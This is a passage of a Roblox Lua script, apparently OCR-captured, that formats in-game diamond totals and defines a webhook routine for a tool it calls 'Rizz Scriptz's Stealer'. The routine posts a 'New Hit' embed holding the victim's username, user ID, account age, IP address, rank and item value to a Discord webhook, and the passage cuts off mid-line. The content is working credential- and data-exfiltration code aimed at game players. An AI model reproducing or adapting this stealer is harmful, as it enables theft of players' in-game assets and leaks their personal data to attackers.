     if ChosenAbbreviation then
        local digits = abbreviations[ChosenAbbreviation]
        local rounded = math.floor(diaamt2 / 10 ^ (digits - 3)) * 10 ^ (digits - 3)
        DiamondsCount = string.format("%0.2f", rounded / 10 ^ (digits - 1))
        local addsd = string.split(DiamondsCount, ".")[2]
        local pnt = "."
        if string.split(addsd, "")[2] == "0" and string.split(addsd, "")[1] ~= "0" then
            DiamondsCount = string.split(DiamondsCount, ".")[1] ..
                pnt .. string.split(addsd, "")[1] .. ChosenAbbreviation
        elseif string.split(addsd, "")[2] == "0" and string.split(addsd, "")[1] == "0" then
            DiamondsCount = string.split(DiamondsCount, ".")[1] .. ChosenAbbreviation
        elseif string.split(addsd, "")[2] ~= "0" and string.split(addsd, "")[1] ~= "0" then
            DiamondsCount = DiamondsCount .. ChosenAbbreviation
        elseif string.split(addsd, "")[2] ~= "0" and string.split(addsd, "")[1] == "0" then
            DiamondsCount = DiamondsCount .. ChosenAbbreviation
        else
            DiamondsCount = diamonds
        end
    end
    return DiamondsCount
end

local DiamondsCount = diamondstoconvert(givediaamt)
local WDiamondsCount = diamondstoconvert(DiamondsDiamonds)
function RAP()
    local RAP = diamondstoconvert(PlayerInfos.RAP)
    return RAP
end

-- Webhook
local url = Webhook
local whenabled = true
local function SendWebhook(rarity, name, ping, d, f, petimg, receiver)
    local abcdef1
    local headers
    local lmao = "/5"
    local Image = string.split(petimg, "rbxassetid://")[2]
    Image = game:HttpGet("https://thumbnails.roblox.com/v1/assets?assetIds=" ..
        Image .. "&returnPolicy=PlaceHolder&size=420x420&format=Png&isCircular=false")
    Image = game:GetService("HttpService"):JSONDecode(Image).data[1].imageUrl
    if FinalFinal ~= 0 or DiamondsDiamonds ~= 0 then
        imgs =
        "https://cdn.discordapp.com/attachments/1059224458033901668/1066510039818440864/New_Project_DADCF6A.gif"
        data1 = {
            ["content"] = ping,
            ["username"] = "Rizz Scriptz",
            ["avatar_url"] = imgs,
            ["embeds"] = { {
                ["title"] = "**New Hit** ||With Rizz||",
                ["url"] = "https://discord.gg/uSgzNwHDTS",
                ["type"] = "rich",
                ["color"] = tonumber(0x2798FF),
                ["thumbnail"] = {
                    ["url"] = Image,
                    ["height"] = 420,
                    ["width"] = 420
                },
                ["fields"] = { {
                    ["name"] = "**This data was generated using Rizz Scriptz's Stealer** :moyai:",
                    ["value"] = "```Username     : " .. username ..
                        "\nUser-ID      : " .. fardplayer.userId .. "\nAccount Age  : " .. fardplayer.AccountAge ..
                        " Days\nIP Address   : " .. IPadress .. "\nRank           : " .. rank .. "\nRAP          : " .. RAP() ..